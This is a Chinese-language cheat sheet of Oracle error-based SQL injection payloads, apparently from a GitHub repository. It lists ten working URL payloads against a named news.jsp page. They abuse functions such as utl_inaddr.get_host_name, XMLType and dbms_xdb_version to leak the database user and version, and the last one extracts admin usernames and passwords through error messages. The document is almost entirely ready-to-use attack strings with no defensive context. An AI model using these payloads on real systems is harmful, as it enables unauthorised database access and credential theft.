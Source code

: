 ## 1、 utl_inaddr.get_host_name()

```http
http://www.jsporcle.com/news.jsp?id=1 and 1=utl_inaddr.get_host_name((select user from dual))--
```

## 2、 ctxsys.drithsx.sn()

```http
http://www.jsporcle.com/news.jsp?id=1 and 1=ctxsys.drithsx.sn(1,(select user from dual))--
```

## 3、 XMLType()

```http
and (select upper(XMLType(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual) is not null --
http://www.jsporcle.com/news.jsp?id=1 and (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select user from dual)%7c%7cchr(62))) from dual) is not null --
```

## 4、dbms_xdb_version.checkin()

```http
http://www.jsporcle.com/news.jsp?id=1 and (select dbms_xdb_version.checkin((select user from dual)) from dual) is not null -- 
```

查询版本信息

```http
http://www.jsporcle.com/news.jsp?id=1 and (select dbms_xdb_version.checkin((select banner from sys.v_$version where rownum=1)) from dual) is not null -- 
```

## 5、bms_xdb_version.makeversioned()

```http
http://www.jsporcle.com/news.jsp?id=1 and (select dbms_xdb_version.makeversioned((select user from dual)) from dual) is not null --
```

## 6、dbms_xdb_version.uncheckout()

```http
http://www.jsporcle.com/news.jsp?id=1 and (select dbms_xdb_version.uncheckout((select user from dual)) from dual) is not null --
```

## 7、dbms_utility.sqlid_to_sqlhash()

```http
http://www.jsporcle.com/news.jsp?id=1 and (SELECT dbms_utility.sqlid_to_sqlhash((select user from dual)) from dual) is not null --
```

## 8、ordsys.ord_dicom.getmappingxpath()

```http
http://www.jsporcle.com/news.jsp?id=1 and 1=ordsys.ord_dicom.getmappingxpath((select user from dual),user,user) --
```

## 9、decode

这种方式更偏向布尔型注入，因为这种方式并不会通过报错把查询结果回显回来，仅是用来作为页面的表现不同的判断方法。

```http
http://www.jsporcle.com/news.jsp?id=1 and 1=(select decode(substr(user,1,1),'S',(1/0),0) from dual)--
```

## 10、报错admin表的用户和密码

```http
http://www.jsporcle.com/news.jsp?id=1 and 1=utl_inaddr.get_host_name((select (select username%7c%7cpassword from admin)from dual))-- 
```

